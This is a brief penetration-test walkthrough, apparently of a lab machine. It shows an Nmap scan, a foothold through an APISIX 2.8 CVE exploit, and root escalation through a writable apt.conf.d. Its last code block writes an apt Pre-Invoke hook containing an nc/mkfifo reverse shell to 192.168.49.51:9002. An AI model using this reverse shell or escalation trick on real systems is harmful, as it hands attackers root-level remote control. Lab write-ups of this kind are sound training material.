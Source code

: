 
## NMAP

```nmap-scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 03:44 UTC
Stats: 0:00:58 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.97% done; ETC: 03:47 (0:01:58 remaining)
Nmap scan report for 192.168.51.220
Host is up (0.00089s latency).
Not shown: 65392 filtered tcp ports (no-response), 138 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp    open   http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Upright
3306/tcp  open   mysql      MySQL (unauthorized)
8080/tcp  closed http-proxy
43500/tcp open   http       OpenResty web app server
|_http-server-header: APISIX/2.8
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.99 seconds
```


## TCP 43500
site on 43500 gives 404
tried dirbuster - medium wordlist - no results
Using APISIX 2.8 - [APISIX vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2022-24112) exploited via searchsploit to get shell as franklin
linpeas hinted at dirtysock in snapd but not vulnerable version

Used LinPeas to find info:
	Found vulnerable cronjob run by root every minute
	root runs apt-get update
	Cron script was not editable but apt.conf.d was write-able by franklin
	Added a nc mkfifo reverse shell using apt::Update::Pre-Invoke:
```apt-get-privesc
echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 9002 >/tmp/f"};' > 02xyz
```
**Done**
